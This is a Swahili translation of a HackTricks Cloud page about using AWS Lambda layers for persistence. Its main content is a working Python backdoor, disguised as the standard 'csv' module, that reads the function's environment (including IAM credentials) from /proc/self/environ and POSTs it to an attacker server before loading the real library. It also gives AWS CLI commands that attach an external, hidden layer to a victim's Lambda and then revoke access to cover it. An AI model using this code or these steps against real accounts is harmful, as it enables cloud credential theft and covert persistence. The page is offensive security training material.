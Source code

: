 # AWS - Uthabiti wa Lambda Layers

{% hint style="success" %}
Jifunze na zoezi la Kuvamia AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Mafunzo ya HackTricks ya Mtaalam wa Timu Nyekundu ya AWS (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Jifunze na zoezi la Kuvamia GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Mafunzo ya HackTricks ya Mtaalam wa Timu Nyekundu ya GCP (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Aunga mkono HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}

## Lambda Layers

Tabaka la Lambda ni faili ya .zip ambayo **inaweza kuwa na msimbo wa ziada** au yaliyomo mengine. Tabaka linaweza kuwa na maktaba, [muda wa desturi](https://docs.aws.amazon.com/lambda/latest/dg/runtimes-custom.html), data, au faili za usanidi.

Inawezekana kuongeza hadi **tabaka tano kwa kila kazi**. Unapojumuisha tabaka katika kazi, **maudhui yanaondolewa kwenye saraka ya `/opt`** katika mazingira ya utekelezaji.

Kwa **chaguo-msingi**, **tabaka** unazounda ni **binafsi** kwa akaunti yako ya AWS. Unaweza **kuchagua** kushiriki tabaka na akaunti zingine au **kuifanya** tabaka **kuwa ya umma**. Ikiwa kazi zako zinatumia tabaka ambayo akaunti tofauti imetoa, kazi zako zinaweza **kuendelea kutumia toleo la tabaka baada ya kufutwa, au baada ya ruhusa yako ya kupata tabaka kufutwa**. Walakini, huwezi kuunda kazi mpya au kusasisha kazi zinazotumia toleo lililofutwa la tabaka.

Kazi zilizosambazwa kama picha ya kontena hazitumii tabaka. Badala yake, unapakia muda wa utekelezaji unaopendelea, maktaba, na mahitaji mengine ndani ya picha ya kontena unapojenga picha.

### Njia ya Upakiaji wa Python

Njia ya upakiaji ambayo Python itatumia katika lambda ni ifuatayo:
```
['/var/task', '/opt/python/lib/python3.9/site-packages', '/opt/python', '/var/runtime', '/var/lang/lib/python39.zip', '/var/lang/lib/python3.9', '/var/lang/lib/python3.9/lib-dynload', '/var/lang/lib/python3.9/site-packages', '/opt/python/lib/python3.9/site-packages']
```
Angalia jinsi **nafasi ya pili** na ya tatu **inavyochukuliwa** na saraka ambapo **lambda layers** hufungua faili zao: **`/opt/python/lib/python3.9/site-packages`** na **`/opt/python`**

{% hint style="danger" %}
Ikiwa mshambuliaji amefanikiwa **kuweka mlango nyuma** kwenye **layer** ya lambda iliyotumiwa au **kuongeza moja** ambayo itakuwa **ikitekeleza nambari ya kupindukia wakati maktaba ya kawaida inapakiwa**, ataweza kutekeleza nambari yenye nia mbaya kila wakati lambda inaitwa.
{% endhint %}

Kwa hivyo, mahitaji ni:

* **Angalia maktaba** ambazo zimepakuliwa na nambari ya wahasiriwa
* Unda **maktaba ya proksi na lambda layers** ambayo itatekeleza nambari ya desturi na **pakia maktaba ya asili**.

### Maktaba zilizopakiwa mapema

{% hint style="warning" %}
Nikichambua mbinu hii nilikutana na changamoto: Baadhi ya maktaba tayari zimepakuliwa katika muda wa python wakati nambari yako inatekelezwa. Nilitarajia kupata vitu kama `os` au `sys`, lakini **hata maktaba ya `json` ilipakiwa**.\
Ili kutumia mbinu hii ya uthabiti, nambari inahitaji **kupakia maktaba mpya ambayo haijapakiwa** wakati nambari inatekelezwa.
{% endhint %}

Kwa nambari ya python kama hii, ni rahisi kupata **orodha ya maktaba zilizopakiwa mapema** ndani ya muda wa python kwenye lambda:
```python
import sys

def lambda_handler(event, context):
return {
'statusCode': 200,
'body': str(sys.modules.keys())
}
```
Na hii ni **orodha** (angalia kwamba maktaba kama `os` au `json` tayari zipo)
```
'sys', 'builtins', '_frozen_importlib', '_imp', '_thread', '_warnings', '_weakref', '_io', 'marshal', 'posix', '_frozen_importlib_external', 'time', 'zipimport', '_codecs', 'codecs', 'encodings.aliases', 'encodings', 'encodings.utf_8', '_signal', 'encodings.latin_1', '_abc', 'abc', 'io', '__main__', '_stat', 'stat', '_collections_abc', 'genericpath', 'posixpath', 'os.path', 'os', '_sitebuiltins', 'pwd', '_locale', '_bootlocale', 'site', 'types', 'enum', '_sre', 'sre_constants', 'sre_parse', 'sre_compile', '_heapq', 'heapq', 'itertools', 'keyword', '_operator', 'operator', 'reprlib', '_collections', 'collections', '_functools', 'functools', 'copyreg', 're', '_json', 'json.scanner', 'json.decoder', 'json.encoder', 'json', 'token', 'tokenize', 'linecache', 'traceback', 'warnings', '_weakrefset', 'weakref', 'collections.abc', '_string', 'string', 'threading', 'atexit', 'logging', 'awslambdaric', 'importlib._bootstrap', 'importlib._bootstrap_external', 'importlib', 'awslambdaric.lambda_context', 'http', 'email', 'email.errors', 'binascii', 'email.quoprimime', '_struct', 'struct', 'base64', 'email.base64mime', 'quopri', 'email.encoders', 'email.charset', 'email.header', 'math', '_bisect', 'bisect', '_random', '_sha512', 'random', '_socket', 'select', 'selectors', 'errno', 'array', 'socket', '_datetime', 'datetime', 'urllib', 'urllib.parse', 'locale', 'calendar', 'email._parseaddr', 'email.utils', 'email._policybase', 'email.feedparser', 'email.parser', 'uu', 'email._encoded_words', 'email.iterators', 'email.message', '_ssl', 'ssl', 'http.client', 'runtime_client', 'numbers', '_decimal', 'decimal', '__future__', 'simplejson.errors', 'simplejson.raw_json', 'simplejson.compat', 'simplejson._speedups', 'simplejson.scanner', 'simplejson.decoder', 'simplejson.encoder', 'simplejson', 'awslambdaric.lambda_runtime_exception', 'awslambdaric.lambda_runtime_marshaller', 'awslambdaric.lambda_runtime_client', 'awslambdaric.bootstrap', 'awslambdaric.__main__', 'lambda_function'
```
Na hii ndio orodha ya **maktaba** ambazo **lambda inajumuisha kwa msingi**: [https://gist.github.com/gene1wood/4a052f39490fae00e0c3](https://gist.github.com/gene1wood/4a052f39490fae00e0c3)

### Lambda Layer Backdooring

Katika mfano huu, tufikirie kuwa nambari iliyolengwa inaingiza **`csv`**. Tutakuwa **tukirudisha nyuma uingizaji wa maktaba ya `csv`**.

Kufanya hivyo, tutakuwa **tunaunda saraka ya csv** na faili ya **`__init__.py`** ndani yake kwenye njia ambayo inapakiwa na lambda: **`/opt/python/lib/python3.9/site-packages`**\
Kisha, wakati lambda inatekelezwa na jaribu kupakia **csv**, faili yetu ya **`__init__.py` itapakiwa na kutekelezwa**.\
Faili hii lazima ifanye yafuatayo:

* Tekeleza mzigo wetu
* Pakia maktaba ya csv ya asili

Tunaweza kufanya yote hayo na:
```python
import sys
from urllib import request

with open("/proc/self/environ", "rb") as file:
url= "https://attacker13123344.com/" #Change this to your server
req = request.Request(url, data=file.read(), method="POST")
response = request.urlopen(req)

# Remove backdoor directory from path to load original library
del_path_dir = "/".join(__file__.split("/")[:-2])
sys.path.remove(del_path_dir)

# Remove backdoored loaded library from sys.modules
del sys.modules[__file__.split("/")[-2]]

# Load original library
import csv as _csv

sys.modules["csv"] = _csv
```
Kisha, tengeneza zipu na nambari hii kwenye njia **`python/lib/python3.9/site-packages/__init__.py`** na uiweke kama safu ya lambda.

Unaweza kupata nambari hii kwenye [**https://github.com/carlospolop/LambdaLayerBackdoor**](https://github.com/carlospolop/LambdaLayerBackdoor)

Payload iliyoundwa itatuma IAM creds kwa seva WAKATI WA KWANZA inaitwa au BAADA YA kurejesha chombo cha lambda (mabadiliko ya nambari au lambda baridi), lakini **njia nyingine** kama zifuatazo zinaweza pia kuingizwa:

{% content-ref url="../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md" %}
[aws-warm-lambda-persistence.md](../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md)
{% endcontent-ref %}

### Safu za Nje

Tafadhali elewa kwamba inawezekana kutumia **safu za lambda kutoka kwenye akaunti za nje**. Zaidi ya hayo, lambda inaweza kutumia safu kutoka kwenye akaunti ya nje hata kama haina ruhusa.\
Pia elewa kwamba **idadi kubwa ya safu ambayo lambda inaweza kuwa nayo ni 5**.

Hivyo, ili kuboresha uwezo wa mbinu hii, mshambuliaji anaweza:

* Kuweka mlango wa nyuma kwenye safu iliyopo ya mtumiaji (hakuna kitu cha nje)
* **Kuunda** **safu** kwenye **akaunti yake**, kumpa **akaunti ya mwathiriwa ruhusa** ya kutumia safu, **kusanidi** **safu** kwenye Lambda ya mwathiriwa na **ondoa ruhusa**.
* **Lambda** bado itaweza **kutumia safu** na mwathiriwa **hatakuwa na njia rahisi ya kudownload nambari za safu** (isipokuwa kupata rev shell ndani ya lambda)
* Mwathiriwa **hataona safu za nje** zilizotumiwa na **`aws lambda list-layers`**

{% code overflow="wrap" %}
```bash
# Upload backdoor layer
aws lambda publish-layer-version --layer-name "ExternalBackdoor" --zip-file file://backdoor.zip --compatible-architectures "x86_64" "arm64" --compatible-runtimes "python3.9" "python3.8" "python3.7" "python3.6"

# Give everyone access to the lambda layer
## Put the account number in --principal to give access only to an account
aws lambda add-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1 --principal '*' --action lambda:GetLayerVersion

## Add layer to victims Lambda

# Remove permissions
aws lambda remove-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1
```
{% endcode %}

{% hint style="success" %}
Jifunze na zoea AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Mafunzo ya HackTricks ya Mtaalam wa Timu Nyekundu ya AWS (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Jifunze na zoea GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Mafunzo ya HackTricks ya Mtaalam wa Timu Nyekundu ya GCP (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa michango**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

